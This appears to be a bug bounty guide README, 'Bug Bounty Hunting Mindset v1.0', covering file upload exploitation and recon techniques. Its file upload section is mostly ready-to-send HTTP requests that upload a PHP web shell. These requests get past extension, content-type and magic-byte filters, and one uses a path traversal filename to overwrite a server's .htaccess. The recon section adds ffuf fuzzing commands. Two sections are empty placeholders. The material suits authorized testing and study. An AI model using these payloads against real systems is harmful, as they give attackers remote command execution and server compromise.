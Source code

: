 # Bug Bounty Hunting Mindset v1.0

<h2 align="center"><strong>Bug Bounty Hunting Mindset v1.0</strong></h2>

<p align="center">A focused and practical resource for bug bounty hunters, penetration testers, and red teamers — covering real-world techniques, bypasses, and offensive security insights.</p>

***

<h3 align="center"><strong>Vulnerabilities &#x26; Bypasses:</strong></h3>

> **Info:**
>
> <p align="center">A collection of known vulnerability types with practical methods to bypass filters, protections, and common security mechanisms.</p>

#### <sup>**V01.**</sup>**&#x20;Insecure file uploads: A complete guide to finding advanced file upload vulnerabilities:**

1. **Identifying file upload vulnerabilities**
   1. Retrievable
   2. Content-Type
2. **Exploiting simple file upload vulnerabilities**
   1. No restrictions

```http
POST /Api/FileUpload.aspx HTTP/2
Host: console.example.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.3
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3RwPFJztxaJvrqAq
Accept: */*

------WebKitFormBoundary3RwPFJztxaJvrqAq
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: application/x-php

<?php echo system($_GET['e']); ?>
------WebKitFormBoundary3RwPFJztxaJvrqAq--
```

* Bypassing client-side restrictions
  * HTML "accept" attribute
  * using proxy interceptors
* Bypassing a file extension blacklist

<figure><img src=".gitbook/assets/file-upload-vuln1.png" alt=""><figcaption></figcaption></figure>

<p align="center">Bypass file extension exclusion lists</p>

* Bypassing a file extension whitelist

<figure><img src=".gitbook/assets/file-upload-vuln2.png" alt=""><figcaption></figcaption></figure>

<p align="center">Bypass file extension inclusion lists</p>

If the file upload implementation determines your file type by the content type, you can also attempt to upload a file with a whitelisted file extension but with your malicious content type:

```http
POST /Api/FileUpload.aspx HTTP/2
Host: console.example.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.3
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3RwPFJztxaJvrqAq
Accept: */*

------WebKitFormBoundary3RwPFJztxaJvrqAq
Content-Disposition: form-data; name="file"; filename="shell.png"
Content-Type: application/x-php

<?php echo system($_GET['e']); ?>
------WebKitFormBoundary3RwPFJztxaJvrqAq--
```

<p align="center">Take note of the <mark style="color:red;">filename</mark> and <mark style="color:red;">Content-Type</mark> in the example request above.</p>

3. **Exploiting advanced file upload vulnerabilities**

* Bypassing content type restrictions

```http
POST /Api/FileUpload.aspx HTTP/2
Host: console.example.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.3
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3RwPFJztxaJvrqAq
Accept: */*

------WebKitFormBoundary3RwPFJztxaJvrqAq
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: image/png

<?php echo system($_GET['e']); ?>
------WebKitFormBoundary3RwPFJztxaJvrqAq--
```

* Magic bytes
  *   These are the magic bytes for a normal image (PNG) in HEX:

      `89 50 4E 47 0D 0A 1A 0A`

```http
POST /Api/FileUpload.aspx HTTP/2
Host: console.example.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.3
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3RwPFJztxaJvrqAq
Accept: */*

------WebKitFormBoundary3RwPFJztxaJvrqAq
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: application/x-php

‰PNG␍␊␚␊
<?php echo system($_GET['e']); ?>
------WebKitFormBoundary3RwPFJztxaJvrqAq--
```

<p align="center"><a href="https://en.wikipedia.org/wiki/List_of_file_signatures">List of file signatures - Wikipedia</a></p>

* Overwriting server configuration files
  * .htaccess

```http
POST /Api/FileUpload.aspx HTTP/2
Host: console.example.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.3
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3RwPFJztxaJvrqAq
Accept: */*

------WebKitFormBoundary3RwPFJztxaJvrqAq
Content-Disposition: form-data; name="file"; filename="../../../.htaccess"
Content-Type: text/plain

# Your server configuraton rules
------WebKitFormBoundary3RwPFJztxaJvrqAq--
```

***

#### <sup>**V02.**</sup>

***

<h3 align="center"><strong>Hunting Techniques &#x26; Ideas:</strong></h3>

> **Info:**
>
> <p align="center">General strategies, techniques, and creative approaches to help you discover more bugs and uncover hidden attack surfaces.</p>

#### <sup>**T01.**</sup>**&#x20;7 Overlooked recon techniques to find more vulnerabilities:**

1. **Targeted wordlists**
   1. [CeWL](https://github.com/digininja/CeWL)
2. **Virtual host (VHost) enumeration**

```sh
ffuf -u https://example.com -H "Host: FUZZ.example.com" -w /path/to/wordlist
```

3. **Forced browsing using different HTTP methods**

```sh
ffuf -u https://api.example.com/PATH -X METHOD -w /path/to/wordlist:PATH -w /path/to/http_methods:METHOD
```

4. **JavaScript file monitoring**
   1. [JSMON](https://github.com/robre/jsmon)
5. **Crawling with different user-agent headers**
   1. <kbd>Proxy → Proxy settings → Tools → Proxy → HTTP match and replace rules</kbd>
6. **Finding related assets with favicon hashes**
   1. [Shodan](https://www.shodan.io/)
   2. [Censys](https://search.censys.io/)
7. **Looking up legacy versions of JavaScript files**
   1. [internet archives](https://archive.org/)

***

#### <sup>**T02.**</sup>

***

<h3 align="center"><strong>Closing Note:</strong></h3>

It is my pleasure and honor to have your support and follow-up. I look forward to exchanging knowledge and collaborating with you in the field of cybersecurity.

Stay connected:

* **X Platform:** [iProgrammer16](https://x.com/iProgrammer16)
* **X Platform:** [1ZeroDay](https://x.com/1ZeroDay)
* **LinkedIn:** [Linkedin](https://www.linkedin.com/in/saleh16abdullah/)
* **Github:** [iProgrammer16](https://github.com/iProgrammer16)
* **Telegram Channel:** [1ZeroDay](https://t.me/+ylDx8zGNLEwzMWU8)
* **For collaboration on HackerOne:** [HackerOne Profile - iProgrammer16](https://hackerone.com/iprogrammer16)
* **All social links in one place:** [Linktr](https://linktr.ee/1ZeroDay)

